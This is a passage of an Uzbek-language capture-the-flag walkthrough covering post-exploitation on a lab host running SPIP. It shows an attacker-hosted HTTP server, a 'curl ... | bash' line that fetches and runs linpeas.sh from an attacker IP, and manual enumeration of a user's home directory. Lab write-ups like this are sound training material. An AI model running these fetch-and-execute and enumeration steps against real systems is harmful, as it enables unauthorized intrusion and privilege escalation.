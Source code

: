 Imtiyozlarimizni oshirishimiz kerak.

Tizimni tahlil qilishdan boshlaymiz... Domgidek yordamga linpeas.sh yetib keladi.

Uni yuklab olish:

```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

Kompyuterimizga yuklab olgach biz o'zimizdan HTTP server ochib faylni serverga olib o'tamiz.

Http server ochish:

```
sudo python3 -m http.server 80
```

Serverga yuklash:

```
wget 10.8.24.135/linpeas.sh
```

Unga Execution huquqini berish:

```
chmod +x linpeas.sh
```

Natija:

```
www-data@41c976e507f8:/home/think/spip/spip$ wget 10.8.24.135/linpeas.sh
wget 10.8.24.135/linpeas.sh
bash: wget: command not found
www-data@41c976e507f8:/home/think/spip/spip$ curl 10.8.24.135/linpeas.sh | bash
<think/spip/spip$ curl 10.8.24.135/linpeas.sh | bash
bash: curl: command not found
www-data@41c976e507f8:/home/think/spip/spip$ 
```

Damn! Mayli, qo'lda tekshirib chiqamiz.

Ishni foydalanuvchilar haqida ma'lumot to'plashdan boshlaymiz.

```
www-data@41c976e507f8:/home/think$ cd /home
cd /home
www-data@41c976e507f8:/home$ ls
ls
think
www-data@41c976e507f8:/home$ 
```

think nomli user bor ekan...

```
www-data@41c976e507f8:/home/think$ls -lah
ls -lah
total 48K
drwxr-xr-x 8 think    think    4.0K Feb 10  2024 .
drwxr-xr-x 1 root     root     4.0K Dec  7  2023 ..
lrwxrwxrwx 1 root     root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think    think     220 Nov 14  2023 .bash_logout
-rw-r--r-- 1 think    think    3.7K Nov 14  2023 .bashrc
drwx------ 2 think    think    4.0K Nov 14  2023 .cache
drwx------ 3 think    think    4.0K Dec  8  2023 .config
drwx------ 3 think    think    4.0K Feb 10  2024 .gnupg
drwxrwxr-x 3 think    think    4.0K Jan 10  2024 .local
-rw-r--r-- 1 think    think     807 Nov 14  2023 .profile
lrwxrwxrwx 1 think    think       9 Feb 10  2024 .python_history -> /dev/null
drwxr-xr-x 2 think    think    4.0K Jan 10  2024 .ssh
lrwxrwxrwx 1 think    think       9 Feb 10  2024 .viminfo -> /dev/null
```